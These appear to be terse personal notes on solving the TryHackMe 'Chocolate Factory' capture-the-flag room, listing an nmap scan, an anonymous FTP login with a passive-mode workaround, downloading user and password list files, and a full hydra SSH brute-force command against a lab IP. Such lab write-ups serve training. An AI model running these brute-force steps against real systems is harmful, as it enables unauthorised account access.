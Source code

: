 Rough Notes - Chocolate Factory - TryHackMe CTF

nmap --> ftp, ssh

ftp -- anonymous

login

ls doesnt work

google workaround

quote PASV

ls

get locks

get users

hydra --> ssh brute force with usernames and passwords from ftp files

hydra -L users.txt -P locks.txt 10.10.198.21 ssh